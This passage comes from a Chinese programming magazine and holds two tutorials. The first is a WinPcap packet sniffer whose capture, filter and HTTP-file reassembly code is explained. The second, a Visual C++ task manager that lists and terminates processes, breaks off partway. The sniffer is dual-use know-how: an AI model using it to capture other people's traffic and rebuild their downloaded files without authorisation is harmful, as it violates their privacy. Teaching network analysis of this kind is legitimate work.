在使用时，数据包列表部分会有些数据包显示出不同的颜色，如图 3 所示。每一个使用特殊颜色的数据包对应一个有可能还原的 HTTP 协议中传输的文件。如果双击该数据包，程序会自动搜索所有包含该文件内容的数据包，并把所有数据重组，生成对应文件，显示到屏幕上，如图 4 所示。有一点需要声明，由于本程序主要做测试之用，故在重组数据包的时候没有考虑 TCP 出错重传的情况，搜索深度也较浅，所以，对某些拓扑距离过远的网站传送的文件解析效果不是很好。


图3


图4

在树形区中点击节点，在内存显示区中也会显示相应的内存数据。为了编写方便，我只处理了根节点下第一层子节点的操作，其余节点点击无效。下面介绍过滤器的设置，过滤器设置界面如图 5 所示。


图5

过滤器内容共包含 4 种：协议类型、IP 地址、物理地址、端口号。在协议类型标签栏中，我们可以设置对网络层协议和传输层协议的选择，单击复选框选择需要过滤的协议，然后单击“添加”按钮；在物理地址标签栏中，我们可以设置对物理地址的过滤。注意，物理地址必须是如下格式“XX:XX:XX:XX:XX:XX”，否则无法正常编译，如图 6 所示。


图6

设置后单击“添加”按钮。IP 地址是设置有关 IP 协议过滤的，端口号选项是设置端口过滤的，操作与物理地址过滤设置相同，不再赘述。设置过滤器后，必须点击该对话框右上角的“设置”按钮用来通知程序编译新的过滤器；如果只是希望清除旧的过滤器设置，单击“清空”按钮即可。

##### 程序体系结构

下面该介绍编写方法了。其实编写一个程序，最重要的是前期对程序结构的规划。记住一点，对困难问题很难一次解决，就采用分而治之的办法，分层解决。所以，只要前期进行了详尽的设计和系统的规划，编码算不了什么。下面我来介绍一下本程序的体系结构，该程序的主体由用户界面模块、数据传输模块和数据包捕获模块三个模块构成，如图 7 所示。


图7

该功能模块主要从事与用户的交互功能。在收到“接收数据包”消息后，该模块根据消息函数的参数在文档中找到相关的缓冲区，从其中获得数据包的内存映像并解析，首先获得其中的物理地址、IP 地址、端口号等信息，并智能分析协议类型，最后把这些信息输出到列表框中。

下面是数据传输模块。数据传输模块主要负责在其它两个模块之间的数据中转。为什么要增设这个模块呢？因为抓取数据包后对数据包的处理过程应该尽量简略，以避免丢包现象，所以，与用户界面通讯的任务就交给这个模块完成。首先还是工作流程，如图 8 所示。这个功能模块主要是负责数据抓取线程和用户界面线程之间的通讯，检验缓冲区数组中各个缓冲区是否已经被抓取线程填充数据包内容；如果已经填充完毕，则通知用户界面解析该数据包。以 2000 个数据包为界限，每到 2000 个数据包，抓取程序自动停止，等待用户界面处理完毕再继续抓取，这其中的同步功能也由这个模块完成。配上一些代码说明。



图8

```cpp
bool IfThread2Start=false;
Parament *P=NULL; // 以上是两个全局变量，用来连两个线程之间同步和线程参数的传递
static int Schedule=0; // 这个变量用来表示当前传递的数据在数组中的位置

UINT TransmitThreadFunc(LPVOID PParament)
{
    while(!IfThread2Start) // 等待数据捕获线程开启
    {
        Sleep(40);
    }

    while(P!=NULL&&P->Stop==false) // 首先检验参数，是否结束该线程或者暂停工作？
    {
        while(P!=NULL&&P->Pause)
        {
            Sleep(100);
            if(P!=NULL&&P->Stop)
            {
                return(0);
            }
        }

        while(P!=NULL&&P->Buf[Schedule].Valid==false) // 等待数据有效（即等待数据捕获线程写数据）
        {
            Sleep(10);
            if(P!=NULL&&P->Stop)
            {
                return(0);
            }
        }

        CWnd * PWnd=(CWnd *)PParament;
        P->Buf[Schedule].Valid=false; // 标识该数据已经被取走
        PWnd->SendMessage(WM_ADDLISTENTY,Schedule);
        // 发送消息，通知界面重新绘制
        Schedule++;
        if(Schedule==2000) // 同步工作
        {
            Schedule=0;
        }
    }
    return(0);
}
```

```cpp
void packet_handler(u_char *param, const struct pcap_pkthdr *header, const u_char *pkt_data) // 这个函数是 Winpcap 抓到数据包后的回调函数
{
    static int i=0;
    if(P==NULL) // 判断是否退出
    {
        ExitThread(0);
    }
    while(P!=NULL&&P->Pause) // 判断是否为暂停情况
    {
        if(P!=NULL&&P->Stop) // 判断是否停止
        {
            ExitThread(0);
        }
        Sleep(10);
    }
    if(P!=NULL&&P->Stop) // 判断是否停止
    {
        ExitThread(0);
    }

    memcpy(&(P->Buf[i].header),header,sizeof(pcap_pkthdr)); // 拷贝捕获的数据包到相应的缓冲区
    memcpy(P->Buf[i].Buf,pkt_data,header->len);
    P->Buf[i].Valid=true; // 表示数据有效
    i++;
    if(i==2000) // 同步
    {
        while(Schedule!=0)
        {
            Sleep(100);
        }
        i=0;
    }
}

UINT SnifferThreadFunc(LPVOID PParament) // 这个是抓获数据包的主线程
{
    P=(Parament *)PParament;
    IfThread2Start=true; // 初始化全局变量
    pcap_t *adhandle;
    char ErrBuf[PCAP_ERRBUF_SIZE];
    struct bpf_program fcode;
```

最后是数据捕获模块，也是最重要的模块。此模块使用 Winpcap 3.1 编写而成，主要负责从网络上捕获数据包，并把数据包拷贝到相关缓冲区里，也先给大家一张流程图，如图 9 所示。该模块主要负责在网络上捕获数据包，它的功能相对简单，在完成初始化并且编译 Filter 无误后，即开始抓取数据包的循环。抓取到数据包后即把该数据包整个拷贝到缓冲区数组的相应块中，并标示该块内存数据有效，然后即继续抓取下一个数据包，其他工作交给另外两个模块完成，下面是代码分析：


图9

```cpp
ULONG NetMask;
CWnd * PWnd=P->PFather;
if((adhandle= pcap_open_live(P->Dev->name,65536,1,1000,ErrBuf)) == NULL)// 打开 Winpcap 句柄
{
    CString Tmp;
    Tmp.Format("Open Adapter :%s Error!",P->Dev->name);
    MessageBox(NULL,Tmp.GetBuffer(),"Error",MB_OK|MB_ICONERROR);
    PWnd->SendMessage(WM_WINPCAPWRONG,1);// 发送消息，通知该线程出错
    return -1;
}
if(pcap_datalink(adhandle) != DLT_EN10MB)// 判断是否工作在以太网下
{
    MessageBox(NULL,"This Program only support Ethernet web!","Error",MB_OK|MB_ICONERROR);
    PWnd->SendMessage(WM_WINPCAPWRONG,2);
    return -1;
}
if(P->Dev->addresses != NULL)
{
    NetMask=((struct sockaddr_in *)(P->Dev->addresses->netmask))->sin_addr.S_un.S_addr;
}
else
{
    NetMask=0xffffffff;
}
if (pcap_compile(adhandle, &fcode,P->Filter, 1, NetMask) <0 )// 编译过滤器
{
    CString Err;
    Err.Format("Can't Compile Filter:%s",P->Filter);
    MessageBox(NULL,Err,"Error",MB_OK|MB_ICONERROR);
    PWnd->SendMessage(WM_WINPCAPWRONG,3);
    return -1;
}
if (pcap_setfilter(adhandle, &fcode)<0)// 设置过滤器
{
    MessageBox(NULL,"Can't Set Filter","Error",MB_OK|MB_ICONERROR);
    PWnd->SendMessage(WM_WINPCAPWRONG,4);
    return -1;
}
pcap_loop(adhandle, 0, packet_handler, NULL);// 开始捕获数据包的循环
return 0;
```

下面是一张三个模块的模块间总体关系图，如图 10 所示。

下面是具体模块细节功能介绍，首先介绍 ListView 解析数据包过程：

在收到解析数据包的消息后，该模块首先获得该数据包在缓冲区数组中的位置，并将指针转移到相关位置，解析该数据包的源物理地址和目的物理地址，然后检测该数据包是否是一个 IP 数据包或者 ARP 数据包；如果不是，表示其属性为“802.3”，解析停止；如果是 ARP 数据包，继续解析其中的源 IP 地址和目的 IP 地址，并获得有关数据长度的信息，解析至此结束；如果是 IP 数据包，则需要继续解析。首先分析其 IP 头中的协议字段，看该数据包是否为 ICMP、TCP 或者 UDP 数据包；如果不是以上任意一类，则获取有关数据长度的信息，解析结束。


如果是 ICMP 数据包，则标示该数据包协议类型为 ICMP，并获得数据长度信息，并结束解析。如果是 TCP 或者 UDP 数据包，则需要进一步解析。针对 UDP 数据包，则获取其端口信息，并针对端口号进一步判断其协议类型，本程序可以识别的协议类型包括 SNMP、DNS、NETBIOS、BOOTPS 和 OICQ；识别到这些信息以后，获取剩余数据长度信息，并结束解析。

针对 TCP 数据包，也需要进行获取端口号的操作，并根据其端口号进一步判断其协议类型，可判断的协议类型包括 HTTP、FTP、NETBIOS、SMTP、POP、TELNET、SSH、SOCKET 代理。程序运行至此，如果不是 HTTP，则获取剩余数据长度信息，解析结束；若是 HTTP 协议，则还需要判断该 HTTP 协议是否是一个 HTTP 协议从服务端传送数据的 TCP 连接的第一个数据包（除去建立连接的数据包），若是，则使用特殊颜色标示该数据包在视图中对应的位置，以便进行还原 HTTP 传送文件的操作。

接着是 TreeView 的解析过程，该解析过程和 ListView 的解析过程基本相同，只不过其解析过程更加详细。其基本解析思想也是自底向上，逐层解析，在此把其解析过程与 ListView 解析过程的区别具体介绍，相同之处不再赘述。首先，在解析 ARP 协议的时候，根据 ARP 数据包的结构获得其数据包中的所有内容，并依次转换成树状结构中对应的节点，并在视图区显示。针对 TCP、UDP、ICMP 的解析也有类似过程，而针对 HTTP 协议数据段，则是以“0D 0A”为界限，拆分其中的各条 HTTP 命令和响应消息，并依次以树节点的形式显示。但是由于 TCP 协议可能会根据 MTU 自动拆分长数据包，以致有些 HTTP 数据包只是完全存放文件内容，并不包含任何 HTTP 协议控制字段，故在解析之前先要判断该数据包是否含有命令控制信息，再进行解析。

最后是解析数据包内存过程，该过程相对比较简单。在接收到解析数据的消息之后，首先从消息响应函数中获得存放该数据包的内存地址，然后分别得到各个字节存放数据的数值，并把数值输出，然后再把各个字节的数值转换成其对应的 ASCII 码字符，并把这些字符也输出到界面上。

MFC 架构可读性较强，故不再分析代码了，大家去工程里自己看吧。接下来介绍设置过滤器过程和重组 HTTP 数据过程设置。过滤器分成 4 个子项：协议类型、端口号、物理地址和 IP 地址，这 4 个子项过滤器之间是“与”的关系。

重组 HTTP 数据过程比较复杂。首先，根据过程 1 中特殊颜色标识的数据包找到包含 HTTP 数据的第一个数据包，然后获得本 HTTP 数据文件的长度，并判断该数据包是否包含了本 HTTP 数据文件的全部数据。最后给出重组数据的代码。

```cpp
char * FindNextPacket(Buffer* First/*链表头部*/,
    int CurrentPosition/*当前元素在链表中的位置*/,
    int &NextPacketPosition/*找到数据包中的位置*/,
    ULONG &LengthInNextPacket/*找到数据包中的数据长度*/)
{
    tcp_packet *PTcpPacket=(tcp_packet*)(First[CurrentPosition].Buf);
    ULONG DataLength=(First[CurrentPosition].header.len-sizeof(ip_packet)-((PTcpPacket->TcpHead.th_lenres)>>2));
    ULONG t1,t2,t3;
    t1=ntohl(PTcpPacket->TcpHead.th_seq);
    t2=t1+DataLength;
    t3=htonl(t2);
    ULONG NextSequenceNO=t3;
    USHORT SourcePort=PTcpPacket->TcpHead.th_sport;
    USHORT DestPort=PTcpPacket->TcpHead.th_dport;
    ...
}
```

```cpp
{
    PTcpPacket=(tcp_packet*)(First[i].Buf);
    if(PTcpPacket->IpPacket.EthHead.eh_type==(0x8))
    {
        if(PTcpPacket->IpPacket.IpHead.source_addr==SourceAddr
           && PTcpPacket->IpPacket.IpHead.dest_addr==DestAddr)
        {
            if(PTcpPacket->IpPacket.IpHead.proto==6)
            {
                if(PTcpPacket->TcpHead.th_sport==SourcePort
                   && PTcpPacket->TcpHead.th_dport==DestPort)
                {
                    ...
                    if(NextSequenceNO==PTcpPacket->TcpHead.th_seq)
                    {
                        NextPacketPosition=i;
                        LengthInNextPacket=...;
                        return ((char *)&(PTcpPacket->TcpHead))+((PTcpPacket->TcpHead.th_lenres)>>2);
                    }
                }
            }
        }
    }
}
...
return NULL;
```


> 因为 TCP 在复杂网络上传输很可能存在乱序的现象，所以，需要向前向后都进行搜寻。

```cpp
char* GetData(Buffer* First, /*链表头部*/
              char* CurPosition, /*该数据包中重组数据的起始位置*/
              ULONG LengthInThisPacket, /*重组数据在该数据包中的长度*/
              int CurrentPosition, /*当前元素在链表中的位置*/
              ULONG TotalLength) /*数据总长度*/
{
    ULONG DataGeted = 0;
    char* RebuildData = new char[TotalLength];
    memcpy(RebuildData, CurPosition, LengthInThisPacket);
    DataGeted += LengthInThisPacket;
    int NextPacketPosition = CurrentPosition;
    while (DataGeted < TotalLength)
    {
        ULONG AddDataLength = 0;
        char* DataAdd = FindNextPacket(First, NextPacketPosition,
                                       NextPacketPosition, AddDataLength);
        if (DataAdd != NULL)
        {
            if (AddDataLength + DataGeted <= TotalLength)
            {
                memcpy(RebuildData + DataGeted, DataAdd, AddDataLength);
                DataGeted += AddDataLength;
            }
            else
            {
                delete[] RebuildData;
                return NULL;
            }
        }
        else
        {
            delete[] RebuildData;
            return NULL;
        }
    }

    return RebuildData;
}
```

##### 测试结果

经测试，本程序可以在以太网上顺利工作，并正确分析以太网上的各种数据包。此外，在重组 HTTP 文件方面，我们学校的一些校内网站发送的文件，几乎所有都可以成功还原；广域网上的一些网站，类似新浪、搜狐等的还原错误率也较低；而某些网站，尤其是一些与校园网络连接拓扑结构过于复杂或者链路质量较差的网络，因其过高的超时重传率造成大量错误 TCP 数据包，故而重组失误率较高。此外，测试机器必须安装 WinPcap 3.1，低版本 WinPcap 会存在网卡物理地址过滤无法成功编译的现象。

##### 小结

总而言之，本文写得比较简略，但是台湾著名计算机专家侯捷说过“源代码面前没有秘密！”，源代码放到光盘里了，大家还有什么不明白的自己看代码就行了（顺便说一句，我的开发环境是 Windows XP SP2 + Visual Studio .NET）。只要静下心来，相信没什么问题的，有什么问题欢迎大家发信和我讨论，祝大家都能开发出功能强大的、为自己量身订做的 Sniffer！

#### 循序渐进：制作任务管理器



文/图 文忠乐

Ctrl+Alt+Del 这组热键应该是大家很熟悉的，它是常用 Windows 任务管理器。我们今天就一起来制作一个简单的任务管理器，它可以实现一次结束多个进程、新建进程、刷新进程等功能。

我的方法是：通过 Psapi.dll 提供 API 函数 EnumProcesses、EnumProcessModules 和 GetModuleFileNameEx 来实现枚举进程，然后在列表控件里显示出来（使用的方法和 2005 年 2 期上的《四种方法实现 VC 枚举当前进程》的第 2 种方法一样）。先来看看它们的原型：

```cpp
BOOL EnumProcesses(DWORD* lpidProcess,
                   DWORD cb,
                   DWORD* cbNeeded);
```

该函数的各参数定义如下：

- lpidProcess：存放所有进程 ID 的数组。  
- cb：lpidProcess 数组的大小，一般用 sizeof(lpidProcess) 运算。  
- cbNeeded：存储函数返回的字节数，cbNeeded/sizeof(DWORD) 即为进程数。

```cpp
DWORD GetModuleBaseName(
    HANDLE hProcess,
    HMODULE hModule,
    LPTSTR lpBaseName,
    DWORD nSize
);
```

该函数的各参数定义如下：

- hProcess：指定的进程 ID。  
- hModule：指定进程对应的模块，可以由 EnumProcessModules 函数获得。  
- lpBaseName：用于存放 exe 程序的名称。  
- nSize：存放 lpBaseName 参数的长度。

```cpp
DWORD GetModuleFileNameEx(
    HANDLE hProcess,
    HMODULE hModule,
    LPTSTR lpFileName,
    DWORD nSize
);
```

该函数的各参数定义如下：

- hProcess：指定进程 ID。  
- hModule：指定进程对应的模块，可以由 EnumProcessModules 函数获得。  
- nSize：存放 lpFileName 参数的长度。

启动 VC++，建立一个“Dialog Base”，完成后把初始对话框中静态控件删除，选中“确定”把它修改为“刷新进程”。再增加两个 Button，分别为“结束任务”和“新建任务”。最后添加一个“List Control”，选中后回车，修改属性 View 为 Report。如果你只希望你的程序一个一个地结束进程的话，那你就把 Single Selection 前打上钩，如图 1 所示。



图1

不过不要忘记了，我们希望的是一次结束多个任务。这个时候对话框应该如图 2 所示。



图2

按下 Ctrl+W，利用 ClassWizard 为 IDC_PROCESS_LIST（就是列表控件的标识符）对象添加类型为 CListCtrl 的成员变量 `m_ctrlProcesses`，如图 3 所示。



图3

在 `C*Dlg.h`（* 为你设置的工程名称）中添加以下全局函数声明：

```cpp
// 获取所有进程 ID
DWORD GetProcessIDs(DWORD* pdwBuffer, DWORD dwSizeBuffer);
// 获取进程对应的应用程序路径
CString GetProcessPath(DWORD idProcess);
// 获取进程的模块名
CString GetProcessBaseModuleName(DWORD idProcess);
// 获取进程 ID
DWORD GetProcessID(LPCSTR lpszName, BOOL bUsePath, DWORD idStart = 0);
// 中止进程
void TerminateProcessID(DWORD id);
```

在 `C*Dlg.cpp` 中添加代码（具体代码请看源文件），完成以上全局函数。

```cpp
#include "psapi.h"
#pragma comment(lib, "psapi")
```

/* Visual Studio 提供的 SDK 中没有 psapi.h 和 psapi.lib，请把提供的这两个文件 copy 到你建立的工程文件夹下，如图4所示。*/



图4

```cpp
DWORD GetProcessIDs(DWORD* pdwBuffer, DWORD dwSizeBuffer)
{
    // 获取进程列表
    DWORD cbNeeded = 0;
    if(!EnumProcesses(pdwBuffer, dwSizeBuffer, &cbNeeded))
    {
        return 0;
    }
    return (cbNeeded / sizeof(DWORD));
}

CString GetProcessPath(DWORD idProcess)
{
    // 获取进程路径
    HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE, idProcess);
    if(NULL != hProcess)
    {
        ...
    }
    return sPath;
}

// 获取进程程序名
...
```

```cpp
CString GetProcessBaseModuleName(DWORD idProcess)
{
    ...
    return sName;
}

DWORD GetProcessID(LPCSTR lpszNameToSearch, BOOL bUsePath, DWORD idStart)
{
    // 获取进程列表
    DWORD idx = 0;
    DWORD aProcesses[1024];
    DWORD cProcesses = GetProcessIDs(aProcesses, sizeof(aProcesses));
    ...
    while(idx < cProcesses)
    {
        CString sName = bUsePath ? GetProcessPath(aProcesses[idx]) : GetProcessBaseModuleName(aProcesses[idx]);
        if(0 == sName.CompareNoCase(lpszNameToSearch))
            return aProcesses[idx];
        idx++;
    }
    return 0;
}

void TerminateProcessID(DWORD id)
{
    HANDLE hProcess = ::OpenProcess(PROCESS_TERMINATE, FALSE, id);
    if(NULL != hProcess)
    {
        TerminateProcess(hProcess, 0);
        CloseHandle(hProcess);
    }
}
```

这其中使用到的列表控件的成员函数是：`InsertColumn(int nCol, LPCSTR lpszColumnHeading, int nFormat, int nWidth, int nSubItem)`，它用来往控件里面插入列。`SetBkColor(RGB(200,150,250)); SetTextBkColor(RGB(200,150,250));` 是分别设置显示背景和字体颜色。



图5

完成后回到类的选项卡，在 `CTaskDlg` 类上点击右键添加成员函数 `void CTaskDlg::Refresh();`，如图5、6所示，编辑代码如下：

